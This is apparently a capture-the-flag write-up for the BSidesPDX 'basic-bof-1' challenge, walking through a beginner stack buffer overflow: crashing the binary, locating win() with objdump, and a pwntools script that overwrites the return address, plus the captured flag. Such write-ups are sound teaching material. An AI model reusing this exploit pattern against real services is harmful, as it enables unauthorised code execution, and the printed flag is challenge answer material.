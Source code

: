 #basic-bof-1
This is a super beginner friendly challenge that only really involves returning to a win() function.

Running the binary, we get:
```
You've got a 40-byte buffer to overflow. There is a win() function you should call (TODO: find its address?). Remember to overwrite the base pointer etc!

Get a shell: gimme gushers
I hope your payload was right. Returning...
```

Ok, whenever we know there is a buffer overflow involved, the first thing we should do is scream at the binary, so let's do that!  We already know the buffer size is 40 bytes, but let's double check.
```
You've got a 40-byte buffer to overflow. There is a win() function you should call (TODO: find its address?). Remember to overwrite the base pointer etc!

Get a shell: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCCDDDD
I hope your payload was right. Returning...
Segmentation fault (core dumped)
```
Wonderful

All that's left is to find the address of the win() function and we should be good to go!  We can just do an `objdump -d basic-bof | grep -w win` to get the location of the function.
```
0000000000401e95 <win>:
```
Sweet!  Let's build our exploit.  
I just used pwntools because I'm really bad at piping input around in the terminal.

```python
from pwn import *
io = remote('basic-bof-1.bsidespdxctf.party', 9999)

io.recvuntil("Get a shell: ")
padding = b'A'*56
EIP = p64(0x0000000000401e95)
io.sendline(padding + EIP)

io.interactive()
```

Running this we get our flag :)
```
[+] Opening connection to basic-bof-1.bsidespdxctf.party on port 9999: Done
[*] Switching to interactive mode
I hope your payload was right. Returning...
Good job, you called win()!
$ cat flag.txt
BSidesPDX{r3turn_t0-w1111111n}
```
